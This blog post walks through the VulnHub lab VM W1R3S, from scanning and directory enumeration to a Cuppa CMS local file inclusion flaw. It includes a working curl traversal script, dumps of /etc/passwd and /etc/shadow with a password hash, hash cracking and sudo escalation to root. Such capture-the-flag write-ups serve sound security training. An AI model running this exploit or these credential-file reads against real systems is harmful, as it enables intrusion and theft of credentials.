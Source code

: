 ```yaml
---
layout: post
title: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You have been hired to do a penetration test on the W1R3S.inc individual server and report all findings. They have asked you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I've always like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We have two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

Turned out the `administrator` directory is the installation setup for Cuppa CMS. This is how it looked like when you point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation){:target="_blank"}, in order for the installation to be completed, the database have to be created first.

>On step 2, configure the database and user administrator setting and click in next. Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. Suffice to say, I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip){:target="_blank"} of the Cuppa CMS code to see if I can discover any vulnerabilities.

It was certainly a pleasant surprise when I found one. I'm not sure if this is a new vulnerability but there is a LFI vulnerability with `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, an extremely simple script that will display any file as long as there is permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I requested for `/etc/shadow` and it showed up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not quite sure if `/etc/shadow` was intentionally made world-readable which should not be the case.

### John the Ripper

Well, what's done is done. With both `passwd` and `shadow` made available, I can `unshadow` them and send them to JtR for offline cracking with a password list like "rockyou".

The cracking was completed in seconds.

```
# john --format=crypt --show hashes.txt 
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

With the password of `w1r3s` made available, I can simply login to the box via SSH.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It wasn't long before I saw that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming root is just one command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

Frankly, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
